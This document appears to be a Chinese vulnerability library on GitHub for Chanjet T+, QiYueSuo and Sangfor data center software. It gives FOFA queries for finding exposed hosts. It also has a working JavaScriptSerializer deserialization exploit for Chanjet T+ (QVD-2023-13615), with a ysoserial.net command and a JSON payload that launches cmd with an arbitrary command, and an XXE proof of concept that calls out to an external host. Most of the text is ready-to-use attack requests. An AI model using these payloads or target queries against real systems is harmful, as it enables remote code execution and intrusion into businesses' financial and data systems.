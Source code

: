 ## 这里就是漏洞库了

### 用友畅捷通T
- fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

- POC
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore
  
  {
  "storeID":{}
  }
  ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![这是一张图片](/images/QVD-2023-13615/1.png)

- 出现这种情况，则存在漏洞  
  使用ysoserial.net工具构造payload（攻击链：ObjectDataProvider）

- `./ysoserial.exe -f JavaScriptSerializer -g ObjectDataProvider -c "执行的命令"`

  ![这是一张图片](/images/QVD-2023-13615/2.png)

- 将生成的序列化数据加载到PoC中（PS：需要将里面的单引号替换成双引号）

  ![这是一张图片](/images/QVD-2023-13615/3.png)

- exp：
  ```
  POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
  Host: your-ip
  X-Ajaxpro-Method: GetStoreWarehouseByStore

  {
  "storeID":{
      "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
      "MethodName":"Start",
      "ObjectInstance":{
          "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
          "StartInfo": {
              "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
              "FileName":"cmd", "Arguments":"/c 执行的命令"
          }
      }
  }
  }
  ```
  ![这是一张图片](/images/QVD-2023-13615/4.png)

  ![Alt text](/images/QVD-2023-13615/5.png)

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)

------

### 契约锁

- fofa语法：`app="契约锁-电子签署平台"`

------

### 深信服 DC数据中心管理系统

- fofa语法：`app="SANGFOR-数据中心"`

#### 深信服数据中心管理系统 XXE漏洞

- POC
  ```
  POST /src/sangforindex HTTP/1.1
  Host: your-ip
  Content-Type: text/xml
  
  <?xml version="1.0" encoding="utf-8" ?>
  <!DOCTYPE root [
      <!ENTITY rt SYSTEM "http://dnslog.cn">
  ]>
  <xxx>
  &rt;
  </xxx>
  ```

- 验证

![Alt text](/images/深信服/1.png)

![Alt text](/images/深信服/2.png)

[相关链接](https://blog.csdn.net/qq_41904294/article/details/132310337)

------

tag
